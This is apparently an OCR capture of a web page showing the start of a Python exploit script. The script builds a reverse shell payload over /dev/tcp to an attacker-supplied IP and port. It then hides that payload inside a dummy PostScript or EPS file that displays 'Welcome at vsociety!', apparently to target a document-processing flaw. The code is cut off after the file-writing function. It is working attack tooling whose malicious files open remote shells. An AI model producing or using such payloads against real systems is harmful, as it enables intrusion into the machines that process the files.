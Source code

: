     </div>
    <div class="terminal-body">
        <pre><code class="language-bash">import argparse
import re
import os

# Function to generate payload for reverse shell
def generate_rev_shell_payload(ip, port):
    payload = f"UNIX_REV_SHELL_PAYLOAD=f\"0<&196;exec 196<>/dev/tcp/{ip}/{port}; sh <&196 >&196 2>&196\""
    return payload

# Function to generate dummy PS or EPS file with payload
def generate_payload_file(filename, extension, payload):
    if extension == 'ps':
        content = f"""%!PS
/Times-Roman findfont
24 scalefont
setfont

100 200 moveto
(Welcome at vsociety!) show

30 100 moveto
60 230 lineto
90 100 lineto
stroke
{payload}
showpage"""
        
    elif extension == 'eps':
        content = f"""%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: 0 0 300 300
%%Title: Welcome EPS

/Times-Roman findfont
24 scalefont
setfont

newpath
50 200 moveto
(Welcome at vsociety!) show

newpath
30 100 moveto
60 230 lineto
90 100 lineto
stroke
{payload}
showpage"""

    filename = filename + '.' + extension
    with open(filename, 'w') as file:
        file.write(content)
